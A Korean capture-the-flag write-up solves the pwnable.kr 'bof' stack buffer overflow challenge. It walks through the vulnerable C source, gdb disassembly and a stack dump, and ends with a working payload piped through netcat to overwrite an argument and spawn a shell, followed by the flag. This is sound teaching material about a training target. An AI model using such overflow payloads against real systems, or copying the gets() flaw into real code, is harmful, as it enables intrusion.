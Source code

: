 #bof

---


우선 코드는 다음과 같다.

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
    void func(int key){
    	char overflowme[32];
    	printf("overflow me : ");
    	gets(overflowme);	// smash me!
    	if(key == 0xcafebabe){
    		system("/bin/sh");
    	}
    	else{
    		printf("Nah..\n");
    	}
    }
    int main(int argc, char* argv[]){
    	func(0xdeadbeef);
    	return 0;
    }
\

    gdb-peda$ pd main
    Dump of assembler code for function main:
       0x00000000004006d6 <+0>: 	push rbp
       0x00000000004006d7 <+1>: 	mov rbp, rsp
       0x00000000004006da <+4>: 	sub rsp, 0x10
       0x00000000004006de <+8>: 	mov DWORD PTR [rbp-0x4], edi
       0x00000000004006e1 <+11>:	mov QWORD PTR [rbp-0x10], rsi
       0x00000000004006e5 <+15>:	mov edi, 0xdeadbeef
       0x00000000004006ea <+20>:	call 0x400666 \ < func>
       0x00000000004006ef <+25>:	mov eax, 0x0
       0x00000000004006f4 <+30>:	leave  
       0x00000000004006f5 <+31>:	ret
    End of assembler dump.
 \
   
    gdb-peda$ pd func
    Dump of assembler code for function func:
       0x0000000000400666 <+0>: 	push   rbp
       0x0000000000400667 <+1>: 	mov rbp, rsp
       0x000000000040066a <+4>: 	sub rsp,0x40
       0x000000000040066e <+8>: 	mov DWORD PTR [rbp-0x34], edi
       0x0000000000400671 <+11>:	mov rax, QWORD PTR fs:0x28
       0x000000000040067a <+20>:	mov QWORD PTR [rbp-0x8], rax
       0x000000000040067e <+24>:	xor eax, eax
       0x0000000000400680 <+26>:	mov edi, 0x400784
       0x0000000000400685 <+31>:	mov eax, 0x0
       0x000000000040068a <+36>:	call   0x400530 <printf@plt>
       0x000000000040068f <+41>:	lea rax, [rbp-0x30]
       0x0000000000400693 <+45>:	mov rdi, rax
       0x0000000000400696 <+48>:	mov eax, 0x0
       0x000000000040069b <+53>:	call   0x400550 <gets@plt>
       0x00000000004006a0 <+58>:	cmp DWORD PTR [rbp-0x34], 0xcafebabe
       0x00000000004006a7 <+65>:	jne 0x4006b5 <func+79>
       0x00000000004006a9 <+67>:	mov edi,0x400793
       0x00000000004006ae <+72>:	call   0x400520 <system@plt>
       0x00000000004006b3 <+77>:	jmp 0x4006bf <func+89>
       0x00000000004006b5 <+79>:	mov edi, 0x40079b
       0x00000000004006ba <+84>:	call   0x400500 <puts@plt>
       0x00000000004006bf <+89>:	nop
       0x00000000004006c0 <+90>:	mov rax, QWORD PTR [rbp-0x8]
       0x00000000004006c4 <+94>:	xor rax, QWORD PTR fs:0x28
       0x00000000004006cd <+103>:	je 0x4006d4 <func+110>
       0x00000000004006cf <+105>:	call   0x400510 <__stack_chk_fail@plt>
       0x00000000004006d4 <+110>:	leave  
       0x00000000004006d5 <+111>:	ret
    End of assembler dump.

`func()`함수로 넘겨주는 0xdeadbeef라는 인자와 0xcafebabe라는 인자를 비교해서 일치한다면, 쉘을 따낼 수 있다. 때문에 `func()`함수의 `gets()`함수에서 일어나는 bufferoverflow를 이용해서 `func()`함수의 인자를 바꾸어주면 된다.

하지만 만약에 해당 파일이 32bit파일이었다면 스택으로 전달되는 인자를 쉽게 바꿀 수 있지만 해당 파일은 64bit이기 때문에 인자를 스택을 이용하여 주고받지 않는다. `func()+8`에서 인자로 받은 값을 rbp-0x34에 저장한다. 이후 `func()+41`, `func()+45`에서 rbp-0x30값을 rdi로 넘겨주고 이 곳에 입력받은 문자열을 저장한다. 그리고 `func()+58`에서 0xcafebabe와 rbp-0x34에 든 값을 비교한다. 때문에 `func()`함수의 인자의 위치가 입력을 받는 공간보다 위에있기 때문에 bufferoverflow를 이용해서 직접적으로 해당 값을 바꿀 수 없다.

---

이렇게 어려운 문제인 줄 알았는데 다른 바이너리 파일이었다. 쉣.

실제로는 아주 간단했다.

위와 같은 파일이 아니라 다음과 같았다.

    gdb-peda$ pd main
    Dump of assembler code for function main:
       0x0000068a <+0>: 	push   ebp
       0x0000068b <+1>: 	mov ebp,esp
       0x0000068d <+3>: 	and esp,0xfffffff0
       0x00000690 <+6>: 	sub esp,0x10
       0x00000693 <+9>: 	mov DWORD PTR [esp],0xdeadbeef
       0x0000069a <+16>:	call   0x62c <func>
       0x0000069f <+21>:	mov eax,0x0
       0x000006a4 <+26>:	leave  
       0x000006a5 <+27>:	ret
    End of assembler dump.

    gdb-peda$ pd func
    Dump of assembler code for function func:
       0x0000062c <+0>: 	push   ebp
       0x0000062d <+1>: 	mov ebp,esp
       0x0000062f <+3>: 	sub esp,0x48
       0x00000632 <+6>: 	mov eax,gs:0x14
       0x00000638 <+12>:	mov DWORD PTR [ebp-0xc],eax
       0x0000063b <+15>:	xor eax,eax
       0x0000063d <+17>:	mov DWORD PTR [esp],0x78c
       0x00000644 <+24>:	call   0x645 <func+25>
       0x00000649 <+29>:	lea eax,[ebp-0x2c]
       0x0000064c <+32>:	mov DWORD PTR [esp],eax
       0x0000064f <+35>:	call   0x650 <func+36>
       0x00000654 <+40>:	cmp DWORD PTR [ebp+0x8],0xcafebabe
       0x0000065b <+47>:	jne 0x66b <func+63>
       0x0000065d <+49>:	mov DWORD PTR [esp],0x79b
       0x00000664 <+56>:	call   0x665 <func+57>
       0x00000669 <+61>:	jmp 0x677 <func+75>
       0x0000066b <+63>:	mov DWORD PTR [esp],0x7a3
       0x00000672 <+70>:	call   0x673 <func+71>
       0x00000677 <+75>:	mov eax,DWORD PTR [ebp-0xc]
       0x0000067a <+78>:	xor eax,DWORD PTR gs:0x14
       0x00000681 <+85>:	je 0x688 <func+92>
       0x00000683 <+87>:	call   0x684 <func+88>
       0x00000688 <+92>:	leave  
       0x00000689 <+93>:	ret
    End of assembler dump.

`func()+35`는 `gets()`를 호출하는 부분이다. 이후에 `func()+40`에 break를 걸고 A*24를 입력한 후 스택을 확인한 결과 다음과 같았다.

    gdb-peda$ x/100x $esp
    0xffffce70:	0xffffce8c	0xffffcf14	0xf7fb6000	0x0000af17
    0xffffce80:	0xffffffff	0x0000002f	0xf7e10dc8	0x41414141
    0xffffce90:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffcea0:	0x41414141	0x00000000	0x56556ff4	0x8085b100
    0xffffceb0:	0xf7fb6000	0xf7fb6000	0xffffced8	0x5655569f
    0xffffcec0:	0xdeadbeef	0x56555250	0x565556b9	0x00000000
    0xffffced0:	0xf7fb6000	0xf7fb6000	0x00000000	0xf7e1c637
    0xffffcee0:	0x00000001	0xffffcf74	0xffffcf7c	0x00000000

0x41이 시작되는 0xffffce8c부터 0xdeadbeef가 있는 0xffffcec0까지 거리는 52byte이다. 따라서 다음과 같이 익스할 수 있다.

<b>(python -c "print 'A'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000</b>

**flag: daddy, I just pwned a buFFer :)**
